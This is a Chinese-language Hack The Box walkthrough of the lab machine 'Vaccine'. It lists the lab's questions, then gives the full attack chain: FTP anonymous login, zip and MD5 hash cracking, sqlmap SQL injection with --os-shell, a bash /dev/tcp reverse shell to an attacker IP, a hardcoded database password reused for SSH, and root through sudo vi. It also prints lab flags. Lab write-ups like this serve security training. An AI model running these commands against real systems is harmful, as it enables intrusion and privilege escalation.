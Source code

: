<center>Vaccine</center>







[toc]







## Vaccine

> Vaccine





### 1. task

1. Besides SSH and HTTP, what other service is hosted on this box?

```shell
```

2. This service can be configured to allow login with any password for specific username. What is that username?

```shell
```

3. What is the name of the file downloaded over this service?

```shell
```

4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

```shell
```

5. What is the password for the admin user on the website?

```shell
```

6. What option can be passed to sqlmap to try to get command execution via the sql injection?

```shell
```

7. What program can the postgres user run as root using sudo?

```shell
```









### 3. flag

> 获取flag

* 信息收集

```shell
export 10.129.235.4

nmap -sV -sC $ip

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.32
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```shell
# ftp 匿名登陆
ftp $ip

anonymous/anonymous

# 下载
get backup.zip

# unzip 解密，需要密码
# john 解密
zip2john backup.zip > pass 
# 下载wordlists
sudo apt install wordlists
john --wordlist=/usr/share/wordlists/john.lst pass 
```

![image-20241204133417580](./assets/image-20241204133417580.png)

> 解密出来：`index.php``index.css`

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

# 用户名和密码写死的
admin / qwerty789
```

> [md5](https://www.cmd5.com/)

> 解密方法2

```shell
# 查看输入那种hash
echo "2cb42f8734ea607eefed3b70af13bbd3" > hash
hashid hash

# hash爆破
sudo apt install hashcat
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt

2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

> 登陆网站。

* sql注入

```shell
# 查询页面
http://10.129.235.4/dashboard.php?search=admin%27%20or%201=1

# 报错说明前端数据可以影响后端查询。
sqlmap -u 'http://10.129.235.4/dashboard.php?search=any+query' --cookie="PHPSESSID=uloff4gftsunmi5sgjd9ebqugm" -batch
```

![image-20241204135500834](./assets/image-20241204135500834.png)

> 存在sql注入，使用sqlmap`os-shell`获取一个shell

```shell
sqlmap -u 'http://10.129.235.4/dashboard.php?search=any+query' --cookie="PHPSESSID=uloff4gftsunmi5sgjd9ebqugm" -batch --os-shell

# 获取到shell 获取反弹shell
# 开启监听
nc -lnvp 4444
# 反弹shell
bash -c "bash -i >& /dev/tcp/10.10.16.32/4444 0>&1"

# 交互shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

> 提权： 

```shell
# 网站目录下有数据库配置
/var/www/html

cat dashboard.php
```

```php
<?php
session_start();
if($_SESSION['login'] !== "true") {
  header("Location: index.php");
  die();
}
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}

catch ( exception $e ) {
  echo $e->getMessage();
}

```

> 登陆ssh`postgres/P@s5w0rd!`

```shell
ssh postgres@10.129.235.4 

# 登陆
# 查看权限
sudo -l
```

![image-20241204140820620](./assets/image-20241204140820620.png)

> 输出显示` postgres`用户权限下，可以使用sudo权限编辑pg_hba.conf文件。

```shell
# 编辑 pg_hba.conf获取shell

# 打开pg_hba.conf
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# 输入,直接输入 : 进行输入，无须打开编辑模式
:set shell=/bin/sh

# 再输入shell
:shell

# 获取到root权限了
cd /root
cat root.txt
dd6e058e814260bc70e9bbdef2715849
```

